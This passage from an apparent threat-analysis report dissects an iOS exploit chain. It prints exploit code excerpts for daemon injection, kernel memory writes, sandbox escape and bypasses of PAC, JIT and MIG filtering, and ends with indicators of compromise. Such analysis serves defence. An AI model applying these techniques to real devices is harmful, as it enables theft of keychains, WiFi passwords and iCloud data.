        0x65, 0x15, 0x40, 0xF9, 0x64, 0x11, 0x40, 0xF9
    ]);
    let foundAddr = Native.callSymbol("memmem", startAddr, 0x4000, Native.mem, 16);

    // Scan backward for PACIASP instruction (function prologue)
    for (let i = buff32.length-1; i >= 0; i--) {
        foundAddr -= 0x4n;
        if (buff32[i] == 0xd503237f)  // PACIASP
            return foundAddr;
    }
}
```

#### Creating a Remote JSContext

The exploit uses `RemoteCall` to create a JSC context in the target process, share an `ArrayBuffer` for FFI, and set up an NSInvocation-based calling chain:

```javascript
// InjectJS.js:71-241
// Load JavaScriptCore in target process
this.task.writeStr(mem, "/System/Library/Frameworks/JavaScriptCore.framework/JavaScriptCore");
const lib = this.task.call(1000, "dlopen", mem, RTLD_LAZY);

// Create JSContext
const jscontext = this.#callObjcRetain(this.#JSContextClass, "new");

// Share a 16KB ArrayBuffer with the injected JS code
const callBuff = this.task.call(100, "calloc", 1, 0x4000);
const nativeCallBuff = this.task.call(100,
    "JSObjectMakeArrayBufferWithBytesNoCopy", jsctx, callBuff, 0x4000);
const globalObject = this.task.call(100, "JSContextGetGlobalObject", jsctx);
this.task.call(100, "JSObjectSetProperty", jsctx, globalObject, jsName, nativeCallBuff);
```

The shared ArrayBuffer contains PAC-signed function pointers (`dlsym`, `memcpy`, `malloc`), the PACIA gadget address, kernel base, and other data needed by the injected payload. The payload uses a dual-NSInvocation chain to achieve native function calling from within the injected JSContext.

#### Injection Targets

The main entry point (`main.js`) injects payloads into multiple system processes:

| Process | Payload | Purpose |
|---|---|---|
| SpringBoard | `loader.js` + `file_downloader.js` | Main agent; forensic file exfiltration |
| configd | `keychain_copier.js` | Copy keychain/keybag files to `/tmp` |
| wifid | `wifi_password_dump.js` | Extract WiFi passwords via SecItemCopyMatching |
| securityd | `wifi_password_securityd.js` | Fallback WiFi password extraction |
| UserEventAgent | `icloud_dumper.js` | iCloud Drive file exfiltration |

### 5.5 Cross-Process Memory Access via VM Object Manipulation

`VM.js` implements cross-process memory access by manipulating XNU's virtual memory subsystem to map remote process pages into the exploit's address space.

The process:

1. **Find the VM map entry** for the target address by traversing the red-black tree (`vm_map->hdr.rb_head_store.rbh_root`):

```javascript
// VM.js - #vm_getEntry
static #vm_getEntry(map, address) {
    let rbhRoot = Chain.read64(map + Chain.offsets().hdrRBHRoot);
    let rbEntry = rbhRoot;

    while (rbEntry != 0n) {
        let curPtr = rbEntry - 0x20n; // container_of
        let links = new vm_map_links(linksArray);

        if (address >= links.start) {
            if (address < links.end) return curPtr; // Found
            rbEntry = Chain.read64(rbEntry + Chain.offsets().rbeRight);
        } else {
            rbEntry = Chain.read64(rbEntry + Chain.offsets().rbeLeft);
        }
    }
}
```

2. **Unpack the VM object pointer** using XNU's packed pointer scheme (31-bit base-relative encoding with 6-bit shift):

```javascript
// VM.js - VM_UNPACK_POINTER
static #vm_unpack_pointer(packed, params) {
    if (!params.vmpp_base_relative) {
        let addr = packed;
        addr <<= 64 - params.vmpp_bits;
        addr >>= 64 - params.vmpp_bits - params.vmpp_shift;
        return addr;
    }
    if (packed) {
        return (BigInt(packed) << BigInt(params.vmpp_shift)) + BigInt(params.vmpp_base);
    }
    return 0n;
}
```

3. **Create a shared memory object** using `mach_make_memory_entry_64`, then **rewrite its backing VM object** to point to the target process's VM object:

```javascript
// VM.js - createShmemWithVmObject
// Create a local memory entry
ret = Native.callSymbol("mach_make_memory_entry_64",
    0x203n, roundedSizePtr, localAddr,
    VM_PROT_READ | VM_PROT_WRITE, memory_object, 0n);

// Get the named entry's internal VM copy
let shmemNamedEntry = Task.getPortKObject(BigInt(port));
let shmemVMCopyAddr = Chain.read64(shmemNamedEntry + Chain.offsets().backingCopy);
let nextAddr = Chain.read64(shmemVMCopyAddr + Chain.offsets().next);

// Rewrite the VM map entry to point to the target's VM object
entry.vme_object = Number(packedPointer);
entry.vme_offset = object.objectOffset;
Chain.writeZoneElement(nextAddr, entryResWrite, VM_MAP_ENTRY_SIZE);

// Map into our address space
ret = Native.callSymbol("mach_vm_map",
    0x203n, mappedAddr, 0x4000n, 0n, 1n,
    BigInt(port), BigInt(object.entryOffset), 0n,
    (VM_PROT_ALL | VM_PROT_IS_MASK) | ((VM_PROT_ALL | VM_PROT_IS_MASK) << 32n),
    VM_INHERIT_NONE);
```

This gives the exploit direct read/write access to remote process memory without system calls, making cross-process data transfer extremely fast.

---

## 6. Mitigation Bypass Deep-Dives

### 6.1 PAC (Pointer Authentication Code)

**What it protects**: On A12+ (ARM64e), function pointers and return addresses are cryptographically signed with a per-process key and a context-specific modifier (discriminator). Invalid signatures cause a fault.

**DarKSward's bypass (two layers)**:

**Layer 1 -- WebContent (RCE worker):**

The exploit does not attempt to forge PAC signatures from scratch. Instead, it abuses the dyld dynamic linker's own `signPointer()` function:

1. Hijack `dyld::RuntimeState::InterposeTupleAll` by corrupting the `Loader` metadata on a suspended dlopen worker thread's stack.
2. Place `dyld::signPointer` as an interposition replacement for an unused CMPhoto function.
3. When the second `dlopen` processes the interpose table, dyld PAC-signs the replacement function pointers (including `signPointer` itself).
4. Read back the PAC-signed pointer to `signPointer` from the ImageIO global variable.
5. Use `signPointer` to create PACIA and PACIB signatures for arbitrary pointers.

This converts the PAC mitigation into a lookup: every function pointer the exploit needs gets signed through `signPointer` before use.

**Layer 2 -- Post-exploitation (kernel-level PAC):**

For thread state manipulation during cross-process injection, the exploit uses `pacia()` -- a native instruction wrapper -- to sign PC and LR values with the correct discriminators:

- PC discriminator: `ptrauth_blend_discriminator(diversifier, 0x7481000000000000)`
- LR discriminator: `ptrauth_blend_discriminator(diversifier, 0x77d3000000000000)`
- The per-thread diversifier comes from `opaque_flags & 0xff000000`

When overwriting kernel-signed thread state values, the exploit clears the kernel-signed flags (`FLAGS_KERNEL_SIGNED_PC`, `FLAGS_KERNEL_SIGNED_LR`, `FLAGS_IB_SIGNED_LR`) so the kernel accepts user-signed values instead.

### 6.2 ASLR (Address Space Layout Randomization)

**What it protects**: Randomizes the base address of shared libraries, the heap, and the stack to prevent predictable pointer values.

**DarKSward's bypass**:

The exploit uses **pre-computed offset tables** per device and iOS build version. The file `rce_module.js` contains offset tables for dozens of iPhone models and iOS versions (iPhone XS through iPhone 17, iOS 17.x through 18.x).

The ASLR slide is computed dynamically:

```javascript
// rce_worker.js:536-537
const dyld_offset = offsets.dyld__RuntimeState_emptySlot - dyld_emptySlot - p.slide;
```

Where `p.slide` is passed from the initial exploit stage, and `dyld_emptySlot` is read from the RuntimeState vtable. The dyld offset is then used to adjust all dyld-internal addresses.

The offset tables encode locations of critical symbols across the dyld_shared_cache:
- WebCore vtables and global variables
- JavaScriptCore internal structures
- ImageIO function pointers
- CFNetwork, AVFAudio, Security framework symbols
- dyld internal structures

This approach trades generality for reliability: the exploit works only on builds with matching offset tables, but requires no runtime scanning or heuristics. An alternative design (not used here) would parse `dyld_shared_cache` metadata at runtime from memory to resolve symbols and bases without shipping per-build tables.

### 6.3 KASLR (Kernel ASLR)

**What it protects**: Randomizes the kernel's load address in physical and virtual memory.

**DarKSward's bypass**:

The kernel base is obtained from the initial exploitation stage via `mpd_kernel_base()`. Once known, the kernel slide is implicit: all kernel offsets are stored relative to the kernel base in `OffsetsTable.js`:

```javascript
// OffsetsTable.js -- per-device, per-version offset tables
export const offsets = {
    "iPhone11": {  // iPhone XS/XR
        "*": {
            23: {   // XNU major
                0: {  // XNU minor
                    pComm: 0x568n,
                    excGuard: 0x5bcn,
                    kstackptr: 0xe8n,
                    ropPid: 0x150n,
                    // ... dozens more offsets
                }
            }
        }
    },
    // iPhone12, iPhone13, ..., iPhone17
};
```

The `Offsets.getByDeviceAndVersion()` function reads the kernel version via `uname()` and the device model, then selects the matching offset set. The `T1SZ_BOOT` value (17 for newer iPhones, 25 for older) is also set per-device family, as it affects `KALLOC_ARRAY_TYPE_SHIFT` used in IPC space table decoding.

### 6.4 App Sandbox

**What it protects**: Restricts file system access, IPC, and network operations for each application.

**DarKSward's bypass (three techniques)**:

**Technique 1: Extension Data Corruption** (`Sandbox.applySandboxEscape()`)

Walks the kernel data structures from `proc` through `ucred`, MAC label, and sandbox profile to find the extension set. Zeroes the extension data and data length, converting a path-specific extension into an unconstrained one. Chain:
```
proc_ro -> proc -> +0x18 -> ucred_ref -> +0x28 -> ucred -> +0x78 -> mac_label ->
+0x10 -> sandbox -> +0x10 -> ext_set -> ext_table[hash] -> ext_hdr -> ext_lst ->
ext -> data (+0x40), dataLength (+0x48) -> zeroed
```

**Technique 2: Launchd Token Issuance**

Uses `RemoteCall` to call `sandbox_extension_issue_file()` in launchd's context with `"com.apple.app-sandbox.read-write"` class, producing tokens for 100+ sensitive paths. Tokens are consumed locally and distributed to injected payloads.

**Technique 3: Token Distribution to Injected Processes**

After injecting into each target process, sandbox tokens are consumed in the target's context via `Sandbox.applyTokensForRemoteTask()`:

```javascript
static applyTokensForRemoteTask(remoteTask) {
    let remoteMem = remoteTask.mem();
    let keys = Object.keys(this.#PathDictionary);
    for (let key of keys) {
        if (this.#PathDictionary[key]) {
            remoteTask.writeStr(remoteMem, this.#PathDictionary[key]);
            remoteTask.call(100, "sandbox_extension_consume", remoteMem);
        }
    }
}
```

### 6.5 W^X and JIT Hardening

**What it protects**: Pages cannot be simultaneously writable and executable. JIT compilation is restricted via allowlists and cage mechanisms.

**DarKSward's bypass**:

The exploit does not attempt to create or modify executable pages. Instead, it achieves code execution through three orthogonal approaches:

1. **JOP gadget chain**: Uses existing signed code sequences (gadgets) already present in the process's code pages. The JOP thread re-uses `pthread_create_suspended_np` to create a thread whose initial function is a PAC-signed gadget loop.

2. **dlopen for code loading**: Forces the process to load additional signed frameworks (TextToSpeech, PerfPowerServicesReader) through the CFBundle corruption technique. All loaded code is already Apple-signed and has valid code signatures.

3. **JIT allowlist bypass**: Writes `0xffffffffffffffff` to `JavaScriptCore__jitAllowList_once` and `1` to `jitAllowList + 8`, marking the allowlist as already initialized and containing a wildcard entry.

4. **NSInvocation chaining**: For cross-process injection, the exploit doesn't need to inject code. It creates legitimate Objective-C objects (JSContext, NSInvocation) in the target process and chains them to achieve arbitrary native calls without modifying code pages.

### 6.6 MIG Filtering (iOS 18.4+)

**What it protects**: Filters Mach IPC messages to prevent certain cross-process operations that were abused by earlier exploits.

**DarKSward's bypass**:

A dedicated JavaScript thread runs in its own JSC context with independent kernel R/W (via duplicated ICMPv6 sockets). The bypass operates in three phases per iteration:

1. **Lock**: Directly manipulates the kernel's `_duplicate_lock` (`lck_rw_t`) by setting the `interlock` (bit 16) and `can_sleep` (bit 22) flags. Also clears the `sbxMessage` pointer to prevent duplicate-message detection.

2. **Intercept**: Monitors specific threads (passed via shared memory pointers) for MIG syscalls. Reads each thread's kernel stack, finds the saved LR matching `_sb_evaluate_internal()`'s caller, and overwrites the return value slot (-40 bytes from LR) with `0` (allow).

3. **Unlock**: Clears the `interlock` bit and the `sbxMessage` pointer, then yields the CPU.

The bypass thread can be paused/resumed via a shared flag, and monitored threads can be dynamically specified -- this allows the main exploit to coordinate MIG bypass timing with exception port setup operations.

### 6.7 GC Safety and Heap Integrity

**What it protects**: The JavaScriptCore garbage collector maintains heap consistency by scanning roots and tracing reachable objects.

**DarKSward's bypass (two mechanisms)**:

**In WebContent** (`rce_worker.js`):
```javascript
const isSafeToCollect = heap.add(0x241n);
p.write8(isSafeToCollect, 0n);
```
Sets `JSC::Heap::m_isSafeToCollect = false`, preventing all GC cycles.

**In MIG bypass thread** (`MigFilterBypassThread.js`):
```javascript
function disarm_gc() {
    let vm = uread64(uread64(addrof(globalThis) + 0x10n) + 0x38n);
    let heap = vm + 0xc0n;
    let m_threadGroup = uread64(heap + 0x198n);
    let threads = uread64(m_threadGroup);
    uwrite64(threads + 0x20n, 0x0n);
}
```
Zeroes the thread group's thread list, preventing the GC from finding any threads to suspend or scan.

### 6.8 Zone Allocator Protections

**What it protects**: XNU's zone allocator (zalloc/kfree) includes integrity checks that detect cross-zone writes and corrupted zone metadata.

**DarKSward's bypass**:

The `writeZoneElement()` method writes kernel memory in zone-element-sized chunks (minimum 32 bytes) to avoid triggering zone integrity checks:

```javascript
// DriverNewThread.js:73-95
writeZoneElement(dst, src, len) {
    const CHAIN_WRITE_ZONE_ELEMENT_MIN_SIZE = 0x20n;

    let remaining = BigInt(len);
    while (remaining != 0n) {
        write_size = (remaining >= CHAIN_WRITE_ZONE_ELEMENT_MIN_SIZE)
            ? CHAIN_WRITE_ZONE_ELEMENT_MIN_SIZE
            : (remaining % CHAIN_WRITE_ZONE_ELEMENT_MIN_SIZE);

        if (write_size != CHAIN_WRITE_ZONE_ELEMENT_MIN_SIZE) {
            // For partial writes: adjust start address backward
            let adjust = (CHAIN_WRITE_ZONE_ELEMENT_MIN_SIZE - write_size);
            kwrite_dst_addr -= adjust;
            kwrite_src_addr -= adjust;
        }
        this.#kwriteLength(kwrite_dst_addr, kwrite_src_addr,
            CHAIN_WRITE_ZONE_ELEMENT_MIN_SIZE);
        remaining -= write_size;
        write_offset += write_size;
    }
}
```

For IPC port structures (144 bytes), the `PortRightInserter` reads the entire structure, modifies fields in userspace, then writes the full structure back using `writeZoneElement` to avoid partial writes that could cross zone boundaries:

```javascript
// PortRightInserter.js:187-210
static #fixRefCounts(portAddr, diff, updateRefs=true, updateSonce=true) {
    // Read entire 144-byte port struct
    Chain.read(portAddr, Native.mem, 144);
    let ipcPort = Native.read(Native.mem, 144);
    let ipcPortView = new DataView(ipcPort);

    // Modify ref counts in userspace
    let refs = ipcPortView.getUint32(0x4, true);
    let sonce = ipcPortView.getUint32(Number(Chain.offsets().ipSorights), true);
    refs += diff;
    sonce += diff;
    ipcPortView.setUint32(0x4, refs, true);
    ipcPortView.setUint32(Number(Chain.offsets().ipSorights), sonce, true);

    // Write back full struct
    Native.write(Native.mem, ipcPort);
    Chain.writeZoneElement(portAddr, Native.mem, 144);
}
```

---

## 7. Indicators of Compromise

### Network Indicators

| Indicator | Type | Context |
|---|---|---|
| `t1.dodai.vip` | Domain | C2 server for data exfiltration |
| Port 8882 (HTTPS) | Network | Primary exfiltration port |
| Port 8881 (HTTP) | Network | Fallback exfiltration port |
| `static.cdncounter.net` | Domain | Exploit delivery (rce_loader.js) |

### File System Indicators

| Path | Purpose |
|---|---|
| `/private/var/tmp/keychain_copy/` | Staged keychain databases |
| `/private/var/tmp/keybag_copy/` | Staged keybag files |
| `/tmp/icloud_dump/` | Staged iCloud Drive files |
| `/private/var/mobile/Media/PostLogs.txt` | Post-exploitation log file |
| `/tmp/wifi_passwords_*.json` | Extracted WiFi credentials |

### Behavioral Indicators

- JavaScriptCore context creation in system daemons (SpringBoard, configd, wifid, securityd, UserEventAgent)
- `sandbox_extension_issue_file` calls from launchd for unusual paths
- ICMPv6 socket creation with `ICMP6_FILTER` setsockopt/getsockopt patterns
- Mass `SecItemCopyMatching` queries for AirPort keychain items from unexpected processes
- Framework loading of TextToSpeech.framework in WebContent process

---

## 8. References

- Google Cloud Threat Intelligence: "DarkSword iOS Exploit Chain" analysis
- Apple Security Updates for iOS 17.x / 18.x
- XNU source (apple/darwin-xnu) for kernel structure definitions
- WebKit source for JavaScriptCore DFG/FTL internals
- Ian Beer / Google Project Zero: Mach port exploitation techniques
- Brandon Azad: task_for_pid and kernel task port research
